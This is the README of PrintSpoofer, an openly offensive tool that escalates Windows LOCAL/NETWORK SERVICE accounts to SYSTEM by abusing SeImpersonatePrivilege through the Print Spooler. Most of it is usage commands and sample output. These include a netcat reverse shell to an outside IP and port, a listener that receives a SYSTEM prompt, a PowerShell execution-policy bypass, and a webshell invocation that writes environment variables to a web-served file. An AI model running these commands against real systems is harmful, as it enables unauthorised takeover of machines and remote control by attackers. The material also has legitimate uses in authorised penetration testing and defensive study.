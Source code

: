 # PrintSpoofer

From LOCAL/NETWORK SERVICE to SYSTEM by abusing `SeImpersonatePrivilege` on Windows 10 and Server 2016/2019.

For more information: [https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/).

<p align="center">
  <img src="demo.gif">
</p>

## Usage

You can check the help message using the `-h` option.

```txt
C:\TOOLS>PrintSpoofer.exe -h

PrintSpoofer v0.1 (by @itm4n)

  Provided that the current user has the SeImpersonate privilege, this tool will leverage the Print
  Spooler service to get a SYSTEM token and then run a custom command with CreateProcessAsUser()

Arguments:
  -c <CMD>    Execute the command *CMD*
  -i          Interact with the new process in the current command prompt (default is non-interactive)
  -d <ID>     Spawn a new process on the desktop corresponding to this session *ID* (check your ID with qwinsta)
  -h          That's me :)

Examples:
  - Run PowerShell as SYSTEM in the current console
      PrintSpoofer.exe -i -c powershell.exe
  - Spawn a SYSTEM command prompt on the desktop of the session 1
      PrintSpoofer.exe -d 1 -c cmd.exe
  - Get a SYSTEM reverse shell
      PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.13.37 1337 -e cmd"
```

### Usage 1: Spawn a SYSTEM process and interact with it

If you have an __interactive__ shell, you can create a new SYSTEM process in your current console.

__Use case__: bind shell, reverse shell, `psexec.py`, etc.

```cmd
C:\TOOLS>PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

### Usage 2: Spawn a SYSTEM process and exit

If you can __execute commands__ but you don't have an interactive shell, you can create a new SYSTEM process and exit immediately without interacting with it.

__Use case__: WinRM, WebShell, `wmiexec.py`, `smbexec.py`, etc.

Create a reverse shell:

```cmd
C:\TOOLS>PrintSpoofer.exe -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

Netcat listener:

```cmd
C:\TOOLS>nc.exe -l -p 1337
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

### Usage 3: Spawn a SYSTEM process on a desktop

If you are __logged on locally or via RDP__ (including VDI), you can spawn a SYSTEM command prompt on your desktop. First, check your session ID with the command `qwinsta` and then specify this value with the option `-d`.

__Use case__: Terminal Session (RDP), VDI

```cmd
C:\TOOLS>qwinsta
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
 services                                    0  Disc
 console           Administrator             1  Active
>rdp-tcp#3         lab-user                  3  Active
 rdp-tcp                                 65536  Listen

C:\TOOLS>PrintSpoofer.exe -d 3 -c "powershell -ep bypass"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

### Usage 4: run on webshell

```cmd
/c C:\inetpub\wwwroot\PrintSpoofer.exe -c "c:\\windows\\system32\\cmd.exe /c set > C:\\inetpub\\wwwroot\\tmp.txt & exit" && type C:\\inetpub\\wwwroot\\tmp.txt
```
<p align="center">
  <img src="run_on_webshell.png">
</p>

[cmd.aspx](https://gist.github.com/Malayke/2ec681313cdb0892ebc3c9f7fc0baafc)
